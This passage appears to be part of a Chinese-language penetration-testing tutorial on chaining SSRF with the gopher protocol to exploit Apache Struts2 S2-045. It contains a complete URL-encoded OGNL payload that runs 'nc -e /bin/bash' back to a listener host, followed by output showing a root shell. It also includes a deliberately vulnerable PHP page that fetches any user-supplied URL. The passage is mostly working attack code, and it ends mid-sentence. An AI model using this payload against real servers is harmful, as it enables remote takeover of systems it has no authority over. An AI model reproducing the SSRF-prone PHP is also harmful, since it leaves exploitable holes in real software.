 ```http
curl gopher://192.168.0.119:8080/_GET%20/S2-045/%20HTTP/1.1%0d%0aHost:192.168.0.119%0d%0aContent-Type:%25%7b%28%23%5f%3d%27%6d%75%6c%74%69%70%61%72%74%2f%66%6f%72%6d%2d%64%61%74%61%27%29%2e%28%23%64%6d%3d%40%6f%67%6e%6c%2e%4f%67%6e%6c%43%6f%6e%74%65%78%74%40%44%45%46%41%55%4c%54%5f%4d%45%4d%42%45%52%5f%41%43%43%45%53%53%29%2e%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%3f%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%3d%23%64%6d%29%3a%28%28%23%63%6f%6e%74%61%69%6e%65%72%3d%23%63%6f%6e%74%65%78%74%5b%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%2e%63%6f%6e%74%61%69%6e%65%72%27%5d%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%3d%23%63%6f%6e%74%61%69%6e%65%72%2e%67%65%74%49%6e%73%74%61%6e%63%65%28%40%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%6f%67%6e%6c%2e%4f%67%6e%6c%55%74%69%6c%40%63%6c%61%73%73%29%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%2e%67%65%74%45%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%2e%67%65%74%45%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%63%6f%6e%74%65%78%74%2e%73%65%74%4d%65%6d%62%65%72%41%63%63%65%73%73%28%23%64%6d%29%29%29%29%2e%28%23%63%6d%64%3d%27%6e%63%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%20%31%39%32%2e%31%36%38%2e%30%2e%31%31%39%20%36%36%36%36%27%29%2e%28%23%69%73%77%69%6e%3d%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%53%79%73%74%65%6d%40%67%65%74%50%72%6f%70%65%72%74%79%28%27%6f%73%2e%6e%61%6d%65%27%29%2e%74%6f%4c%6f%77%65%72%43%61%73%65%28%29%2e%63%6f%6e%74%61%69%6e%73%28%27%77%69%6e%27%29%29%29%2e%28%23%63%6d%64%73%3d%28%23%69%73%77%69%6e%3f%7b%27%63%6d%64%2e%65%78%65%27%2c%27%2f%63%27%2c%23%63%6d%64%7d%3a%7b%27%2f%62%69%6e%2f%62%61%73%68%27%2c%27%2d%63%27%2c%23%63%6d%64%7d%29%29%2e%28%23%70%3d%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%50%72%6f%63%65%73%73%42%75%69%6c%64%65%72%28%23%63%6d%64%73%29%29%2e%28%23%70%2e%72%65%64%69%72%65%63%74%45%72%72%6f%72%53%74%72%65%61%6d%28%74%72%75%65%29%29%2e%28%23%70%72%6f%63%65%73%73%3d%23%70%2e%73%74%61%72%74%28%29%29%2e%28%23%72%6f%73%3d%28%40%6f%72%67%2e%61%70%61%63%68%65%2e%73%74%72%75%74%73%32%2e%53%65%72%76%6c%65%74%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%40%67%65%74%52%65%73%70%6f%6e%73%65%28%29%2e%67%65%74%4f%75%74%70%75%74%53%74%72%65%61%6d%28%29%29%29%2e%28%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%63%6f%70%79%28%23%70%72%6f%63%65%73%73%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%23%72%6f%73%29%29%2e%28%23%72%6f%73%2e%66%6c%75%73%68%28%29%29%7d%0d%0a
```
一定要注意最后加上%0d%0a，以及很多URL编码工具将会回车换行转码为%0a，一定要自己替换为%0a%0d<br />发送请求后可以反弹shell
```bash
margine:~ margin$ nc -l 6666
id
uid=0(root) gid=0(root) groups=0(root)
```
### 在SSRF中如何使用gopher协议反弹shell

1. 我们先准备了一个带有ssrf漏洞的页面，代码如下：
```php
<?php
    $url = $_GET['url'];
    $curlobj = curl_init($url);
    echo curl_exec($curlobj);
?>
```
这里需要注意的是，**你的PHP版本必须大于等于5.3**，并且在PHP.ini文件中开启了extension=php_curl.dll<br />2. 我在机器上开启了一个监听nc -lp 6666<br />   然后在浏览器中访问：
```http
http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher://192.168.0.119:6666/_abc
```
可以看到nc接收到了消息，没有问题。
```bash
C:\Documents and Settings\Administrator\桌面>nc -lp 6666
abc
```
现在我们想，如何使用SSRF漏洞配合gopher协议来获取shell呢？我们的环境如下<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624628840748-61e0e10e-f214-4fa7-9e0f-a0decad75f91.png#align=left&display=inline&height=1228&id=ue51efcce&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1228&originWidth=2243&size=1493101&status=done&style=none&width=2243)<br />上图就不具体说了，是一个典型的ssrf利用的解释图。<br />在使用ssrf去获取struts2的shell时，遇到了两次困难：
